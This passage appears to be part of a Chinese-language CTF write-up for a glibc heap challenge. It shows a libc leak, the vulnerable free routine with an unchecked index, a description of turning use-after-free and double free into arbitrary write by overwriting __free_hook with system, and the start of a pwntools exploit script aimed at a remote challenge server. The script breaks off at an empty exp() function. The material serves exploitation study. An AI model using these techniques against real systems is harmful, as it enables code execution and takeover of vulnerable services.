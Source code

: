 ```
create(0x100,"a"*0x20)#1 
create(0x100,"a"*0x20)#3 
delete(1)
create(0x20,"a"*0x20)#1
create(0xd0,"a"*8)#4
show()
p.recvuntil("4 : aaaaaaaa")
data = p.recvn(6) + "\x00\x00"
libc_base = u64(data) - 0x3c4b78
```
然后利用`free`的时候没有检查`index(v1)`，漏洞点如下程序部分代码，造成`UAF`分配到`bss`上的`chunk_list`，然后改`free`就可以了 。
```
printf("Please enter the index of daily:");
read(0, &buf, 8uLL);
v1 = atoi(&buf);
if ( chunk[v1].ptr )
{
free((void *)chunk[v1].ptr);
chunk[v1].ptr = 0LL;
LODWORD(chunk[v1].len) = 0;
puts("remove successful!!");
--chunk_num;
}
```
然后利用`Double free`得到`bss`段上的`chunk_list`,然后控制`chunk`，实现任意地址写，然后我们写`free_hook`地址为`system`，再`free`的时候就可以`getshell`了。在这之前，我们尝试了申请到`malloc_hook`前面然后把`malloc_hoook`覆盖为`one_gadget`，但是没有一个`one_gadget`可以成功，主要是因为条件没有满足，后来就直接`free_hook`了。详细脚本如下：
```python
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60006)

def show():
	p.recvuntil(":")
	p.sendline("1") 

def create(lens,content):
	p.recvuntil(":")
	p.sendline("2") 
	p.recvuntil(":")
	p.sendline(str(lens)) 
	p.recv()
	p.send(content)

def change(index,content):
	p.recvuntil(":")
	p.sendline("3") 
	p.recvuntil(":")
	p.sendline(str(index)) 
	p.recv()
	p.send(content)

def delete(index):
	p.recvuntil(":")
	p.sendline("4") 
	p.recvuntil(":")
	p.sendline(str(index)) 
chunk_list = 0x602060

def exp(): 
```